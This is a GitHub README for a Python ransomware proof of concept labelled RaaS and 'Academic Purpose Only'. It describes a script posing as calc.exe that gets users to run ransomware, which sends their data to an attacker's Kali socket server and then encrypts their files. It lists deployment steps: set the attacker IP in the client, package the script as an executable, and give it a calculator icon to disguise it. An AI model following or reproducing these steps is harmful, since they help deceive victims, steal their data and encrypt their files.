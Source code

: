 # NextGen-Ransomeware-Poc-Python [RaaS]
A simple python script pretending calc.exe to trigger user execute a ransomeware and sent data before encrypt.
Deployed on Windows environment.

## Academic Purpose Only ##

# Flow #
- Execute socket_server.py on your Kali
- Modify raas.py lines 32 client_socket.connect(("Kali IP", 5000))
- Run autopytoexe convertor the program as a exe
- Replace Icon to calculator.ico
- Output as a exectuable file
